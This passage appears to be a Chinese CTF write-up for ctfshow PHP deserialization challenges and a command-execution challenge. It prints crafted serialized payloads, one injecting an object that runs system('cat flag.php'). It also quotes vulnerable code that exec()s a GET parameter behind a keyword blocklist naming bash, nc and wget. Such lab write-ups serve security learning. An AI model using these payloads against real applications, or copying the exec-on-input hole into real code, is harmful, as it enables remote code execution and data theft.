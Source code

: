 ```php

//?username=xxxxxx&password=xxxxxx
//Cookie: user=O:11:"ctfShowUser":3:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:1;}
//user的内容要url编码
```
### web256
要求username和password不相等    
```php
$pop=new ctfShowUser;
$pop->isVip=true;
$pop->username='shone';
echo serialize($pop);

//?username=shone&password=xxxxxx
//user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22shone%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```
### web257
反序列化并不会触发`__construct()`方法  
```php
class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip;
    private $class = 'info';
    public function __construct(){
        $this->class=new backDoor;
    }
}
class backDoor{
    private $code='system("cat flag.php");';
}
$pop=new ctfShowUser;
echo urlencode(serialize($pop))."\n";


//?username=xxxxxx&password=xxxxxx
//user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3BN%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%22cat+flag.php%22%29%3B%22%3B%7D%7D
```
## ZYPC-Web进度检查
### 无回显
```php
<?php
highlight_file(__FILE__);
if(isset($_GET['zypc']))
{
    $cmd=$_GET['zypc'];
    if(preg_match('/bash|nc|wget|ls|base64|ping|cat|more|less|echo|php|mv|cp|la|\-|\*|\>|\<|\%|\"|\$/i',$url))
    {
        echo "非法指令";
    }
    else
    {
        echo "无回显";
        exec($cmd);
    }
```